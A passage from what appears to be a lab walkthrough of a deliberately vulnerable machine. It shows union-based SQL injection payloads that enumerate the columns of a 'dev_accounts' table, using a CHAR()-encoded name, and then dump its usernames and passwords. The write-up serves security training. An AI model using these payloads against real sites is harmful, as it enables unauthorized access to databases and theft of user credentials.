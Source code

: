 
Nice! We now are able to see all the tables stored in the database! The __dev\_accounts__ looks really promising, let's go ahead and see if we can't find out the columns contained in that table.

```sql
-1 union select 1,group_concat(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name=CHAR(100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115)--
```

The __CHAR()__ section in the SQL Query us actually the __dev\_accounts__ table name. This needs to be done otherwise the SQL Query will fail.

The website should thus return the following after running the query:

<a href="/images/kiop3-9.png"><img src="/images/kiop3-9.png"></a>

Alright! Let's go ahead and print out the username, and password columns.

```sql
-1 union select 1,group_concat(username,0x3a,password),3,4,5,6 FROM dev_accounts--
```

<a href="/images/kiop3-10.png"><img src="/images/kiop3-10.png"></a>
